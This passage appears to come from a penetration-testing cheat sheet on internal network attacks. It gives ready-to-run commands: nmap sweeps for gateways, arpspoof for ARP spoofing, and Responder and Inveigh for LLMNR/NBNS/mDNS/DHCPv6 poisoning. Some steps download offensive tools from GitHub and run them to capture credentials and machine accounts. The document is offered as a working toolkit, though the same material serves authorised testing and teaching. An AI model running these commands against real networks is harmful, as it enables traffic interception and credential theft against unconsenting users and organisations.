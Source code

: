 ```
root@kali:$ nmap -n -sn 10.0-255.0-255.1 -oA subnets/gateways -PE --min-rate 10000 --min-hostgroup 10000
root@kali:$ grep 'Up' subnets/gateways.gnmap |cut -d' ' -f2 > subnets/ranges.txt

root@kali:$ sed -i subnets/ranges.txt -e 's/$/\/24/'
```

Passive traffic analyze. Look for broadcast/multicast, IPv6 packets:

* ARP
* LLMNR, NBNS
* STP
* DHCPv6, ICMPv6
* mDNS


#### Network attacks

##### ARP Spoofing

```
root@kali:$ arpspoof -c both -t VICTIM_10.0.0.5 GATEWAY_10.0.0.1
```

* [www.blackhillsinfosec.com/analyzing-arp-to-discover-exploit-stale-network-address-configurations/](https://www.blackhillsinfosec.com/analyzing-arp-to-discover-exploit-stale-network-address-configurations/)

##### LLMNR/NBNS Poisoning

Responder:

* [www.4armed.com/blog/llmnr-nbtns-poisoning-using-responder/](https://www.4armed.com/blog/llmnr-nbtns-poisoning-using-responder/)
* [github.com/SpiderLabs/Responder](https://github.com/SpiderLabs/Responder)
* [github.com/lgandx/Responder](https://github.com/lgandx/Responder)

```
$ git clone https://github.com/lgandx/Responder
$ ./Responder.py -I eth0 -vwrf
```

Inveigh:

* [github.com/Kevin-Robertson/Inveigh](https://github.com/Kevin-Robertson/Inveigh)

```
$ curl -L https://github.com/Kevin-Robertson/Inveigh/raw/master/Inveigh.ps1 > inveigh.ps1
PS > Invoke-Inveigh [-IP '10.10.13.37'] -ConsoleOutput Y -FileOutput Y –NBNS Y –mDNS Y –Proxy Y -MachineAccounts Y
```

* [github.com/Kevin-Robertson/InveighZero](https://github.com/Kevin-Robertson/InveighZero)
* [github.com/Flangvik/SharpCollection](https://github.com/Flangvik/SharpCollection)

```
$ curl -L https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.0_x64/Inveigh.exe > inveigh.exe
PS > .\inveigh.exe -FileOutput Y -NBNS Y -mDNS Y -Proxy Y -MachineAccounts Y -DHCPv6 Y -LLMNRv6 Y
```


[//]: # (# -- 5 spaces before)
[//]: # (## -- 4 spaces before)
[//]: # (### -- 3 spaces before)
[//]: # (#### -- 2 spaces before)
[//]: # (##### -- 1 space before)